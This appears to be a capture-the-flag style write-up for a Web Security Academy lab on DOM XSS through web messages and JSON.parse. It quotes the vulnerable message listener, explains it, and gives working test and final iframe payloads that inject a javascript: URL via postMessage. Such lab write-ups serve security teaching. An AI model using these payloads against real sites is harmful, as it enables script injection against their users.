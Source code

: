 # DOM XSS using web messages and JSON.parse
# Objective
This lab uses web messaging and parses the message as JSON. \
To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function. 

# Solution
## Analysis
Website has `script` that creates `eventListener`.

|![](Images/image-8.png)|
|:--:| 
| *Added event listener - Web messages* |

Vulnerable code:
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

## Exploitation
The script above:

1. Creates an iframe and appends it to the page when the first message is received.
2. Parses the incoming message (expects it to be JSON).
3. Handles different message types:
- `age-load` - scrolls the iframe into view.
- `load-channel` - sets the iframe’s src to the provided url.
- `player-height-changed` - resizes the iframe to the given width and height.

|![](Images/image-9.png)|
|:--:| 
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-10.png)|
| *Exploit server configuration* |

Test payload:
```js
window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert('xss')\"}", "*");
```

Final payload:
```js
<iframe src="https://0adf000903cf3547813a6c4300500073.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```


